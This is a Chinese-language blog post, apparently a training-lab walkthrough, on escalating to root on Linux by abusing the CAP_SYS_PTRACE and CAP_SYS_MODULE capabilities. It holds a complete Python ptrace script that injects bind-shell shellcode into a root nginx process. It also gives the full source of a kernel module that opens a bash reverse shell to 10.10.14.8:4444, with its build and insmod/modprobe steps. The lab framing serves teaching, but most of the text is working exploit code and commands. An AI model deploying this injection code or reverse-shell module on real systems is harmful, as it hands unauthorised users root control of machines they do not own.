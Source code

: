 #  Linux提权系列23: [训练营]利用linux能力漏洞6   
原创 debugeeker  奶牛安全   2023-04-17 08:02  
  
这篇讲述涉及进程注入和内核模块注入的能力  
## CAP_SYS_PTRACE  
  
在本实验中，python 解释器在有效集和允许集都具有 cap_sys_ptrace 功能  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvzju8NnVY59GX4fPglHu5ib2qHIh92HTTicdJRHdhKZpb4JrwOzbShxXg/640?wx_fmt=png "")  
  
当运行进程的有效集有 cap_sys_ptrace 能力，它可以打开任何进程并将数据写入其内存。这意味着可以注入含有打开shell的恶意代码到正在运行的进程，然后再连接到它。这样将获得带有进程ruid 的 shell。有了这个能力，如果一个进程正在以 root 用户运行，可以直接升级到 root 用户并获得特权 shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvc9oke65d4WlyhN7UwcHOaWsLoDsiaPxYpA48mJbdt1ZPBWSia4gElQfA/640?wx_fmt=png "")  
  
发现nginx父进程是以root用户运行的  
  
编写脚本exploit.py  
```
import ctypes
import sys
import struct
# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17
# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
    # Convert the byte to little endian.
    shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
    shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
    shellcode_byte=int(shellcode_byte_little_endian,16)

    # Inject the byte.
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)

```  
  
此代码将在 nginx 进程中注入一个 shellcode，并在 5600 上打开一个绑定 shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvhWz1owPFvoJ7uCnsWEvg6JhricwVnCbKnOYNAiaib7bAG5OVOVcK3nmmQ/640?wx_fmt=png "")  
  
注入 shellcode 后，可以看到端口 5600 已打开，如前所述。现在可以使用 netcat 连接到端口并以 root 用户身份执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvNicEzlVhBoXDx0oU0alwNxQa5egsAaHNhia1za9OiapZnytrp653IHzibQ/640?wx_fmt=png "")  
## CAP_SYS_MODULE  
  
在这个实验中，kmod 二进制文件在有效集和允许集都具有 cap_sys_module 功能  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvHpIPATYiaibWnQwvia8clIMAX1ticSLocAlJldicLX7dPwsMm0asGyE3JIQ/640?wx_fmt=png "")  
  
Linux 内核允许通过允许用户添加或删除内核模块来扩展其功能。这些是可插入的代码片段，每个代码片段执行一些特定的操作。例如，当添加虚拟机additions时，它会注入内核模块以允许与主机操作系统进行无缝交互。所以很明显，拥有这样的权限，应该是root用户。但是如果一个进程以 cap_sys_module 能力运行，它可以执行这样的操作。而且，如果像 python 或 kmod 这样的进程具有此能力，可以使用反向 shell 直接升级到 root 用户。  
  
reverse-shell.c:  
```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```  
  
Makefile:  
```
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```  
  
是时候构建内核模块了。要执行此操作，请运行 make 命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvTEUibUaicJXnXUKpSKCa497q3h4IW1nuJiawcnQw82VvLpwREHbxpmk4w/640?wx_fmt=png "")  
  
构建成功后，发现有一个名为reverse-shell.ko的文件。这是可以注入的内核对象。由于这是一次性反向 shell，因此启动了 ncat 侦听器。  
  
使用insmod注入内核模块，其中insmod会调用kmod做实际注入工作。由于kmod有cap_sys_module能力，所以，它会成功。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvs8wicMTAjEIBx4FSHlleUek6icOUUSNb6IDCQj2XnjfsOu0hhnYg6d3w/640?wx_fmt=png "")  
  
一旦注入完成，ncat会收到新连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvZjSeufbtdx7Mb4V1NCFh9gksqJLwAfrUcnicM62dzjbHrNWvrb7qRWA/640?wx_fmt=png "")  
  
现在需要做的就是在系统中找到flag文件并读取它  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHv410aySII9ZekODHVe8ibg6U1rUBFSNISjp1UjeQtFNYxpiczYDw44r8Q/640?wx_fmt=png "")  
## CAP_SYS_MODULE 2  
  
在本实验中，python 解释器在有效集和允许集有 cap_sys_module，并且 kmod 模块安装在 python 中  
  
如果 python 解释器有cap_sys_module能力并且安装了 kmod, 可以使用 modprobe 实用程序注入内核模块。  
  
Modprobe 需要一些预处理, 需要先创建一个modules目录，将系统中的模块复制到该目录下  
```
$ mkdir lib/modules -p
$ cp -a /lib/modules/$(uname -r)/ lib/modules/$(uname -r)

```  
  
使用上一节的代码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvIaPMmyUuw54LibgqSvicHGj0iaXpbZIGAibjDc6TV31a5rBefoxzYuL2jQ/640?wx_fmt=png "")  
  
用netcat监听  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvn5ja2yyRoyuDhgtR71BJ22zenfPibktWaGb1Qhice6UlgMnsP6heULXg/640?wx_fmt=png "")  
  
使用 depmod 工具更新内核模块列表，最终 modprobe 在查找和插入模块时将读取该列表  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvkANr7hSXCXNic8wz3FzjhsVnJFyYnSRlzfSNAibGJkeMOhZgWEMVtujw/640?wx_fmt=png "")  
  
一旦注入完成，ncat会收到新连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicby06SPO4VySI77NRYXYXlHvDyvib3wKpicbF18v9Pc5CJGVriaDD6UVva60GpvicDcXQMK47yotPI2XTA/640?wx_fmt=png "")  
# 请点一下右下角的“在看”，谢谢！！  
# 暗号：980662  
  
  
  
